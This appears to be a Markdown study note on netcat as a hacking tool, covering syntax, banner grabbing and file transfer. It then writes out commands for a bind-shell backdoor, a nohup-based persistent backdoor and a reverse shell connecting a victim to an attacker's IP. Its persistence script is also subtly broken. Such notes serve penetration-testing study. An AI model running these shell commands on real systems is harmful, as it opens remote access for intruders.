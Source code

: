 
- its considered as Swiss Army knife of hacking tools
- Command prompt based
	- Originallly for unix/linux computers
	- You can also download a windows versions
- Works with both TCP/ UDP
- Can act as either client or server
	- The client is typically the attacker machine
	- The server is typically the compromised victim machine
- Basic Features
	- Port Scan/Banner grab
	- Act as a Trojan backdoor between hosts and ports
	- Relay / redirected / proxy between hosts and ports
	- Transfer data
	- Act as a one-shot server (such as a webserver)
	- Act as a temporary chat server
#### NETCAT MODES
- Client Mode
	- The client always initiates the connection to the listener
	- All the errors in client mode are put output as standard error
	- Client Mode requires the IP address and port of the listener
- Listener mode:
	- The listener is the server
	- It waits for a client to connect on its configured listening port
	- Its output can be standard output or a file
> A Netcat client can connect to a netcat listener

##### NETCAT SYNTAX
```
	nc [options] [target_systen] [remote_port]'
```
- -l : tells netcat to be in listen mode
- -u : shifts netcat from TCP (default) to udp mode
- -p : For the listener, this is the listened port
	- for the client this is source port
- -e : Tells what operation to perform after a successful connection
- -L : Creates a persistent listener (windows only)
- -wN : Defines the timeout value
	- for Example , w5 = wait for 5 seconds before timeout
- -v : Puts the listener in verbose mode.

##### TCP BANNER GRABBING
- Grab the banner of any TCP service running on a target
- Attempt to connect to each port in the configured range
- Provide verbose output
- Do not resolve names
- Wait no more than 1 second for the connection
- Send a blank string to this range of ports and print out any response received
```
echo “” | nc -v -n -w1 [TargetIPAddr] [startport]-[endport]
```

- PUSH A FILE FROM CLIENT TO LISTNER
```
Listner
\\ Listen on localport , store results in outfile  
nc -l -p [localport] > [outfile]


Client
\\ Push infile to TargetPadd on port:
nc -w3 [TargetIPAddress] [port] < [infile]
```

PULL A FILE FROM LISTNER TO CLIENT
```
Listener
\\ Listen on localport, prep to push infile
nc -l -p [localport] < [infile]

Client
Connect to TargetIPAddress on port and retrieve outfile
nc -w [TargetIPAddress] [Port] > [Outfile]

```

#### NETCAT CREATE A BACKDOOR
- Netcat’s most popular use by malicious users is to create a backdoor login shell
- When the client connects, a command prompt on the listener opens
- The attacker sees the command prompt via the Netcat session
- Note that –e is used to execute the action after the connection is established

```
nc -l -p 1234 -e cmd.exe
on client: nc <Listner IP> 1234
```

#### NETCAT CREATE a PERSISTENT Backdoor
- In Linux, a Netcat backdoor can be made persistent
- Even after the current logged out, the backdoor will keep running in background
- This can be achieved with the usage of the nohup command
- Create the connection as simple script on the listener
- On the listener
```
nc -l -p 1234 -e cmd.exe > runme.sh
chmod 555 runme.sh
nohup ./ runme.sh &
```

#### NETCA REVERSE SHELLS
- The attacker sends an exploit to the victim
	- The payload is a netcat command that will make a connection back to the attacker
- The victim makes an outbound connection past its firewall
	- This means the attackers does not have to contend with the victims firewall when using the backdoor
- The attacker must be listening for, and be able to accept, the reverse connection
```
\\on Attacker: 
nc -l -p 1234

\\on Victim: 
nc <attacker ip> 1234 -e cmd.exe
```



